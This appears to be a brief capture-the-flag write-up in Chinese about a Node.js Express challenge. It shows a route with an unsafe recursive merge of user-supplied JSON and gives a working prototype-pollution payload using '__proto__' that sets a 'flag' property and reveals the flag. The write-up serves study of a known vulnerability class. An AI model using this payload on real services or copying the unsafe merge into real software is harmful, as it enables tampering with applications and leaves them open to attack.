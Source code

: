 ```javascript
var express = require('express');
var router = express.Router();


const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}




router.get('/', function(req, res, next) { 
  if(req.flag=="flag"){
    //输出flag;
    res.send('flag?????????????');
    }
    res.render('info');
});

router.post('/', express.json(),function(req, res) {
  var str = req.body.id;
  var obj = JSON.parse(str);
  req.cookies.id=clone(obj);
  res.render('info');
});

module.exports = router;
```

很明显要通过原型链来污染 req 的 flag 属性, payload 如下

```
id={"__proto__":+{"flag":+"flag"}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271947808.png)

之后转 get 访问得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271948522.png)
